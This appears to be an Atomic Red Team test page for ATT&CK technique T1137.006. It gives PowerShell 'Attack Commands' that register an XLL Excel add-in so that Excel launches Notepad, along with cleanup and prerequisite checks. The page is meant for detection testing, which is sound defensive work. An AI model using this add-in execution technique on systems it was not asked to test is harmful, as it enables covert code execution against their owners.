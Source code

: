 ```yaml
---
tags: [T1137_006, atomic_test]
filename: "[[T1137.006|T1137.006 - Office Application Startup: Add-ins]]"
---
```

# T1137.006 - Office Application Startup: Add-ins

## Atomic Test #1 - Code Executed Via Excel Add-in File (XLL)
Loads an XLL file using the excel add-ins library.
This causes excel to launch Notepad.exe as a child process. This atomic test does not include persistent code execution as you would typically see when this is implemented in malware.

**Supported Platforms:** Windows


**auto_generated_guid:** 441b1a0f-a771-428a-8af0-e99e4698cda3






#### Attack Commands: Run with `powershell`! 


```powershell
$excelApp = New-Object -COMObject "Excel.Application"
if(-not $excelApp.path.contains("Program Files (x86)")){
    Write-Host "64-bit Office"
    $excelApp.RegisterXLL("PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll")
}
else{
  Write-Host "32-bit Office"
  $excelApp.RegisterXLL("PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll")
}
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","Excel" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```
##### Description: XLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll") -and (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll")) {exit 0} else {exit 1}
```